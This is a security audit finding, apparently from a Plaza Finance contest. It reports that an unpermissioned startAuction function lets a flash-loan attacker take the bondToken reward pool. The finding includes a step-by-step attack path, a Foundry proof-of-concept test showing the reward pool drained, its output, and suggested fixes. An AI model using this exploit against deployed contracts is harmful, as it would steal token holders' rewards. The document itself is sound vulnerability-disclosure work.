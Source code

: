 Winning Iron Unicorn

High

# Attacker can drain bondToken reward with flash loan attack

### Summary

Lack of permission check in `Pool.startAuction` will cause bondToken reward pool be drained. Attacker can use flash loan to allocated huge share record in `BondToken.userAssets`, which can be claimed at any time later.

### Root Cause

In [Pool.startAuction](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L530), there is no check for permission. Anyone can call this function with frontrun with correct timing.

At the end of this function, it call `bondToken.increaseIndexedAssetPeriod` to solidify reward from bondToken holding.

```solidity
...
    // Increase the bond token period
    bondToken.increaseIndexedAssetPeriod(sharesPerToken);

    // Update last distribution time
    lastDistribution = block.timestamp;
...
```

```solidity
  function increaseIndexedAssetPeriod(uint256 sharesPerToken) public onlyRole(DISTRIBUTOR_ROLE) whenNotPaused() {
    globalPool.previousPoolAmounts.push(
      PoolAmount({
        period: globalPool.currentPeriod,
        amount: totalSupply(),
        sharesPerToken: globalPool.sharesPerToken
      })
    );
    globalPool.currentPeriod++;
    globalPool.sharesPerToken = sharesPerToken;

    emit IncreasedAssetPeriod(globalPool.currentPeriod, sharesPerToken);
  }
```
Attacker can flash loan a large amount of `reservedToken` and create `bondToken`, then call `startAuction` to solidify reward, and redeem `bondToken` and payback `reservedToken`. All these can be done in one block.


### Internal Pre-conditions

1. Time requirement: `lastDistribution + distributionPeriod < block.timestamp`
2. Time requirement: `lastDistribution + distributionPeriod + auctionPeriod >= block.timestamp`

That is, in another words, auction not started.

3. `IERC20(couponToken).balanceOf(address(distributor) > 0`

That is, there are some bondToken reward in distribution pool.

### External Pre-conditions

1. Attacker can flash loan `reservedToekn`
2. Attacker have enough gas to front-run or sandwich attack in same block.

### Attack Path

1. Attacker create a exploit contract to do following step:
    1. Flash loan a large amount of reserve token `rToken`, say 100 ether
    2. Use 100 ether `rToken` to mint bondETH, say getting 3000 ether `bondETH`
    3. Call `Pool.startAuction`
    4. Redeem 3000 ether `bondETH` to get back 100 ether `rToken`
    5. Payback 100 ether `rToekn` to flash loan contract
2. All above steps should be done in one step, so when last auction period is ended and the timing allow to start the new auction, attacker front-run this exploit function, then he could solidify bondETH reward without actually holding any bondETH.

### Impact

1. Attacker and make up as large as he wants bondETH reward without auctually holding any bondETH.
2. Attacker can drain bondETH reward pool. 
3. All bondETH holders can lose their unclaimed reward.

### PoC

Add following testcase to `test/Pool.t.sol`.
```solidity
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
...
  function testFlashLoanAttack() public {
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)
    params.feeBeneficiary = address(0x942);

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 1000 ether);
    rToken.approve(address(poolFactory), 1000 ether);

    Pool pool = Pool(poolFactory.createPool(params, 1000 ether, 500 ether, 250 ether, "", "", "", "", false));
    pool.setAuctionPeriod(10 days);
    pool.setDistributionPeriod(10 days);

    uint256 rewardPoolAmount = 1.5e35;
    Token couponToken = Token(pool.couponToken());
    couponToken.mint(address(pool), rewardPoolAmount);

    vm.stopPrank();

    // simulate reward distribution
    vm.startPrank(address(pool));
    address distributor = poolFactory.distributors(address(pool));
    IERC20(couponToken).transfer(distributor, rewardPoolAmount);    
    Distributor(distributor).allocate(rewardPoolAmount);
    vm.stopPrank();

    vm.warp(15 days);

    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    vm.startPrank(user);
    
    // step1: flash loan a large amount of rToken
    rToken.mint(user, 100 ether);
    rToken.approve(address(pool), 100 ether);

    // step2: mint bondETH
    uint256 bondAmount = pool.create(Pool.TokenType.BOND, 100 ether, 0);
    assertEq(bondAmount, 3000 ether);

    // step3: startAuction without any permision, increase share record
    pool.startAuction();

    // step4: redeem bondETH
    pool.bondToken().approve(address(pool), bondAmount);
    uint256 redeemedAmount = pool.redeem(Pool.TokenType.BOND, bondAmount, 0);
    assertEq(redeemedAmount, 100 ether);
    
    (uint256 currentPeriod,) = Pool(pool).bondToken().globalPool();
    uint256 share = pool.bondToken().getIndexedUserAmount(user, 0, currentPeriod);
    // SUCCESS: share record created
    assertEq(rewardPoolAmount, share);

    // step6: claim reward
    Distributor(distributor).claim();
    assertEq(Token(pool.couponToken()).balanceOf(user), rewardPoolAmount);
    assertEq(Token(pool.couponToken()).balanceOf(distributor), 0);

    // step7: pay back rToken
    rToken.burn(user, rToken.balanceOf(user));
    rToken.burn(address(pool), rToken.balanceOf(address(pool)));

    vm.stopPrank();
  }
```
run `forge test --match-test testFlashLoanAttack -vvv`, the output is like:
```bash
[⠆] Compiling...
No files changed, compilation skipped

Ran 1 test for test/Pool.t.sol:PoolTest
[PASS] testFlashLoanAttack() (gas: 4014541)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.63ms (3.15ms CPU time)

Ran 1 test suite in 10.73ms (7.63ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

1. Only `GOV` role or protocol admin can call `startAuction`.
2. Reconsider and design the reward distribtion mechanism, user should at least hold bondETH for one period to get reward.